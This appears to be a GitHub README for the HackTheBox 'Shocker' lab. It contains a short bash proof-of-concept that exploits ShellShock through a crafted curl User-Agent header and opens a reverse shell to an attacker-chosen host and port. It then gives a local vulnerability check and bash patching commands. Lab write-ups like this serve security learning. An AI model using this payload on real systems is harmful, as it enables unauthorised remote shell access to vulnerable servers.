 # Super basic POC
```bash
#!/usr/bin/bash

# Super Basic POC Exploit code for HackTheBox Shocker
# Utilizes the ShellShock exploit

# Author: Brad Roberts

if [ $# -lt 2 ];then
    echo "Usage: $0 [LHOST\] [LPORT]"
    exit 1
fi

LHOST=$1
LPORT=$2

TARGET="http://10.10.10.56/cgi-bin/user.sh"

PAYLOAD="/bin/bash -c 'bash -i >& /dev/tcp/${LHOST}/${LPORT} 0>&1'"

curl -H "User-Agent: () { :; }; echo; echo; ${PAYLOAD}" ${TARGET}
```

# I'm vulnerable to ShellShock, how do I fix this?

First off, your webpage might just be vulnerable to OS Injection that happens to look like ShellShock. It's prolly vulnerable but just to be sure, double check by running the following:<br>
`env val='() { :; }; echo VULNERABLE' bash -c "echo Hello World"`

If you see `VULNERABLE` then, you guessed it...

This is a vulnerability in bash itself so to fix this, you'll have to update bash.

Update with apt:<br>
`sudo apt-get update && sudo apt-get install --only-upgrade bash`

Update with yum:<br>
`sudo yum update bash`

Good rule of thumb is to always stay up-to-date on patches!

